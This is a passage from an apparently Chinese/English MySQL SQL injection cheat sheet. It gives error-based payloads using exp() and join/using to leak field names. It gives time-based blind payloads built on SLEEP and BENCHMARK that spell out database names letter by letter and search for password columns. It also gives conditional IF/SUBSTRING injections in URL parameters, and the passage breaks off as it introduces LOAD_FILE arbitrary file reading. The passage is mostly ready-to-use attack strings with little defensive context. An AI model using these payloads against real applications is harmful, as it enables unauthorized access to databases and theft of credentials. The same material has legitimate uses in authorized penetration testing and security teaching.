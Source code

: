 - exp()

	- select * from test where id=1 and exp(~(select * from(select user())a));

- 通过join报错爆字段

	- select * from (select * from 表名 a join 表名 b) c)  
在得到一个字段后，使用using得到下一个字段
select * from (select * from 表名 a join 表名 b using (已知的字段,已知的字段)) c  

### 基于时间的盲注

The following SQL codes will delay the output from MySQL.

```
+BENCHMARK(40000000,SHA1(1337))+
'%2Bbenchmark(3200,SHA1(1))%2B'
AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
RLIKE SLEEP([SLEEPTIME])
OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
```

#### Using SLEEP in a subselect

```
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```

#### Using conditional statements

```
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

### **MySQL**读写文件

- 一切都仅限于MySQL 5.6以前，高版本默认配置secure_file_priv为NULL，无法读写任何文件。

- LOAD_FILE 任意读文件
